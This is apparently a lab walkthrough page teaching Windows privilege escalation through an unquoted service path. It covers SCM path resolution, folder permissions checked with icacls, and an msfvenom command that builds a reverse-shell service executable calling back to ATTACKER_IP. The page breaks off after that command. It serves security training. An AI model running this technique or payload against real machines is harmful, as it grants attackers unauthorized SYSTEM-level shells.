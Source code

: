 ```
```
C:\MyPrograms\Disk.exe	Sorter	          Enterprise\bin\disksrs.exe

----------------------------------------------------
C:\MyPrograms\Disk Sorter.exe	Enterprise\bin\disksrs.exe	

----------------------------------------------------
C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe		
```


This has to do with how the command prompt parses a command. Usually, when you send a command, spaces are used as argument separators unless they are part of a quoted string. This means the "right" interpretation of the unquoted command would be to execute ```C:\\MyPrograms\\Disk.exe``` and take the rest as arguments.

Instead of failing as it probably should, SCM tries to help the user and starts searching for each of the binaries in the order shown in the table:

1. First, search for C:\\MyPrograms\\Disk.exe. If it exists, the service will run this executable.
2. If the latter doesn't exist, it will then search for C:\\MyPrograms\\Disk Sorter.exe. If it exists, the service will run this executable.
3. If the latter doesn't exist, it will then search for C:\\MyPrograms\\Disk Sorter Enterprise\\bin\\disksrs.exe. This option is expected to succeed and will typically be run in a default installation.

From this behaviour, the problem becomes evident. If an attacker creates any of the executables that are searched for before the expected service executable, they can force the service to run an arbitrary executable.

While this sounds trivial, most of the ```service executables``` will be ```installed under C:\Program Files``` or ```C:\Program Files (x86)``` by default, which isn't writable by unprivileged users. This prevents any vulnerable service from being exploited. There are exceptions to this rule: - Some installers change the permissions on the installed folders, making the services vulnerable. - An administrator might decide to install the service binaries in a non-default path. If such a path is world-writable, the vulnerability can be exploited.

In our case, the Administrator installed the Disk Sorter binaries under ```c:\MyPrograms```. By default, this inherits the permissions of the ```C:\``` directory, which allows any user to create files and folders in it. We can check this using ```icacls```:

Command Prompt
```
C:\>icacls c:\MyPrograms
c:\MyPrograms NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
              BUILTIN\Administrators:(I)(OI)(CI)(F)
              BUILTIN\Users:(I)(OI)(CI)(RX)
              BUILTIN\Users:(I)(CI)(AD)
              BUILTIN\Users:(I)(CI)(WD)
              CREATOR OWNER:(I)(OI)(CI)(IO)(F)

Successfully processed 1 files; Failed processing 0 files
```
The ```BUILTIN\\Users``` group has ```AD``` and ```WD``` privileges, allowing the user to create subdirectories and files, respectively.

The process of creating an exe-service payload with msfvenom and transferring it to the target host is the same as before, so feel free to create the following payload and upload it to the server as before. We will also start a listener to receive the reverse shell when it gets executed:

Kali Linux
```
user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4446 -f exe-service -o rev-svc2.exe
